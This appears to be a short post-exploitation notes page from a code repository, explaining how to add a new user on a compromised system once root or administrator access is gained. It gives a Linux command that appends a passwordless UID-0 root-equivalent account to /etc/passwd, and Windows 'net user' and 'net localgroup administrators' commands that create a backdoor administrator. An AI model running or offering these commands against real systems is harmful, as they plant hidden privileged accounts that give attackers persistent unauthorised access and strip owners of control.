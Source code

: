 # Creating a New User on Compromised System
This module will quickly describe the steps taken to add a new user onto a compromised system when you have root/administrative access.
## LINUX (Bash/Shell Method)
1. Create the user with no password entry:

`echo 'trevelyn::0:0:root:/root:/bin/bash' >> /etc/passwd`

2. Update the user's passsword to the username

`echo "trevelyn:trevelyn"|chpasswd`

## WINDOWS (DOS Method)
1. Create the new user:

`net user (USER NAME) /add`

2. Set User's Password:

`net user (USERNAME) (PASSWORD)`

3. Add user to Admins:

`net localgroup administrators (USER NAME) /add`

4. Double Check:

`net localgroup administrators`
